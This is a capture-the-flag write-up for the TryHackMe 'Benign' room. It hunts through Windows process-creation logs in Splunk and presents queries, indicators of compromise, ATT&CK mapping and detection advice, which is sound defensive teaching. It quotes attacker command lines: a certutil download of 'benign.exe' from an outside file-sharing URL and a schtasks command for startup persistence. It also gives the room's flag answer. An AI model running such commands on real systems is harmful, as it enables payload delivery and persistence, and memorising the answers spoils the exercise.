





# TryHackMe: Benign — Threat Hunting with Splunk

**Investigating a compromised HR host: LOLBIN abuse (`certutil`), scheduled task persistence, and an imposter account**

| | |
|---|---|
| **Platform** | TryHackMe, room *Benign* |
| **Category** | Blue Team / SOC, Threat Hunting |
| **Tools** | Splunk Enterprise, LOLBAS Project |
| **Data source** | Windows Event ID 4688 (process creation), index `win_eventlogs` |
| **MITRE ATT&CK** | T1105, T1053.005, T1036 |

---

## Summary of Findings

One host in the HR department was flagged as compromised. The process logs reveal the following chain of activity:

1. An HR user (`haroon`) abused **`certutil.exe`** (a LOLBIN) to download the payload `benign.exe` from the file-sharing site **controlc.com**.
2. An HR user (`Chris.fort`) created a **scheduled task** named `OfficUpdater` that runs `update.exe` from a Temp folder at every system start, a classic **persistence** pattern.
3. An **imposter account, `Amel1a`**, was present in the logs. It imitates the Marketing employee `Amelia` by replacing the letter `i` with the digit `1`.

### Timeline

| Time (UTC) | User | Activity | Technique |
|---|---|---|---|
| 2022-03-04 10:38:28 | `haroon` | `certutil.exe -urlcache -f` downloaded `benign.exe` from controlc.com | T1105 |
| 2022-03-06 14:23:40 | `Chris.fort` | `schtasks.exe /create` registered task `OfficUpdater` (`/sc onstart`) | T1053.005 |

---

## Scenario

One of the client's IDS sensors flagged a suspicious process execution, indicating that a host in the HR department was compromised. Tools related to network information gathering and scheduled tasks were executed, which confirmed the suspicion. Due to limited resources, only process execution logs with **Event ID 4688** could be pulled and ingested into Splunk under the index **`win_eventlogs`**.

### Network Information

The network is split into three logical segments. This list serves as a **baseline** for spotting anomalies.

| Department | Users |
|---|---|
| IT | James, Moin, Katrina |
| HR | Haroon, Chris, Diana |
| Marketing | Bell, Amelia, Deepak |

---

## Investigation

### 1. How many logs were ingested in March 2022?

**Answer: `13959`**

In Splunk, set the time picker to **Date Range → Between** `03/01/2022` and `04/01/2022`, then run:

```spl
index=*
```

Setting the time range first matters because it limits the count to the month in question instead of everything in the index.



---

### 2. Imposter alert: what is the name of the imposter account?

**Answer: `Amel1a`**

Approach: enumerate all unique users, then compare them against the official employee list from the scenario. This is more reliable than guessing which user is suspicious, because the list comes straight from the data.

```spl
index=* HostName=HR_02
| stats count by UserName
```

The results contain `Amel1a`, which is **not** on the official list. It closely resembles `Amelia` (Marketing), with the letter `i` swapped for the digit `1`. This is a common trick to help a fake account slip past a quick visual check.



---

### 3. Which HR user was running scheduled tasks?

**Answer: `Chris.fort`**

On Windows, scheduled tasks are created with the **`schtasks.exe`** utility. Since the available logs are process creation events (4688), every execution is recorded. So I searched by **behavior** (use of `schtasks`) and then narrowed the results to HR users.

```spl
index=* schtasks (UserName=Haroon OR UserName=Chris.Fort OR UserName=Diana)
| table _time, UserName, HostName, ProcessName, CommandLine, EventTime
| sort _time
```



The command line that was found:

```text
schtasks.exe /create /tn OfficUpdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart
```

Parameter breakdown:

| Parameter | Meaning | Why it is suspicious |
|---|---|---|
| `/create` | Creates a new task | A new task appeared with no administrative context |
| `/tn OfficUpdater` | Task name | Mimics a legitimate updater name (note the typo "Offic") to avoid attention |
| `/tr ...\Temp\update.exe` | Program to run | The executable sits in a user Temp folder, a common malware location |
| `/sc onstart` | Schedule | Runs at every system start, which means **persistence** |

> **Note:** in the screenshot, the query contains `daina` (a typo of `Diana`) and the `Hostname` column is empty. The field in this dataset is named `HostName` (Splunk field names are case-sensitive). The query above is the corrected version.

---

### 4. Which HR user executed a system process (LOLBIN) to download a payload from a file-sharing host?

**Answer: `haroon`**

**LOLBIN** stands for **L**iving **O**ff the **L**and **Bin**ary: a legitimate, Microsoft-signed Windows program that attackers abuse. Attackers like them because they do not need to bring their own malware, the processes are trusted and often pass allowlists, and they already exist on almost every Windows machine.

The [LOLBAS Project](https://lolbas-project.github.io/) catalogs these binaries and how they can be abused. From there I suspected `certutil`, which can be used to download files.

```spl
index=* certutil (UserName=Haroon OR UserName=Chris.Fort OR UserName=Diana)
| table _time, UserName, HostName, ProcessName, CommandLine, EventTime
| sort _time
```



---

### 5. Which LOLBIN was used to download a payload from the internet?

**Answer: `certutil.exe`**

The process `C:\Windows\System32\certutil.exe` was executed by `haroon` (see the screenshot in question 4).

---

### 6. Which third-party site was accessed to download the malicious payload?

**Answer: `controlc.com`**

Visible in the command line:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

The `-urlcache -f` options force `certutil` to fetch the URL and save the result as a local file named `benign.exe`.

---

### 7. What is the name of the file saved on the host from the C2 server?

**Answer: `benign.exe`**

It is the last argument of the `certutil` command line, which sets the output file name.

---

### 8. The downloaded file contained the pattern `THM{..........}`. What is it?

**Answer: `THM{KJ&*H^B0}`**

Opening the URL taken from the command line (`https://controlc.com/e4d11035`) shows the contents of `flag.txt`.



---

### 9. What URL did the infected host connect to?

**Answer: `https://controlc.com/e4d11035`**

---

## Indicators of Compromise (IOCs)

| Type | Value |
|---|---|
| URL | `hxxps://controlc[.]com/e4d11035` |
| Domain | `controlc[.]com` |
| Downloaded file | `benign.exe` |
| Persistence file | `C:\Users\Chris.fort\AppData\Local\Temp\update.exe` |
| Scheduled task | `OfficUpdater` |
| LOLBIN | `C:\Windows\System32\certutil.exe` |
| Suspicious account | `Amel1a` (lookalike of `Amelia`) |
| Host | `HR_02` |

## MITRE ATT&CK Mapping

| ID | Technique | Evidence |
|---|---|---|
| T1105 | Ingress Tool Transfer | `certutil -urlcache -f` downloaded `benign.exe` |
| T1053.005 | Scheduled Task/Job: Scheduled Task | `schtasks /create ... /sc onstart` |
| T1036 | Masquerading | Task name `OfficUpdater` and lookalike account `Amel1a` |

## Detection Recommendations

- Alert on `certutil.exe` with `-urlcache` or any `http(s)` URL in its arguments.
- Alert on `schtasks.exe /create` pointing to `AppData` or `Temp` paths.
- Compare observed `UserName` values against an authoritative directory (for example Active Directory) to catch lookalike accounts.
- Enable command-line logging for Event ID 4688. Without it, activity like this would be invisible.

## Lessons Learned

- Start from a **baseline** (the official user list), find what deviates, then dig deeper. Guessing users does not scale when logs reach millions of rows.
- Hunting by **behavior** (`schtasks`, `certutil`) is more effective than hunting by user. Run the search without a user filter first so other accounts are not missed.
- The two malicious activities came from **two different HR users**, so the incident scope should be checked further (a hypothesis, not proven by the data in this room).
- Splunk field names are **case-sensitive** (`HostName`, not `Hostname`).
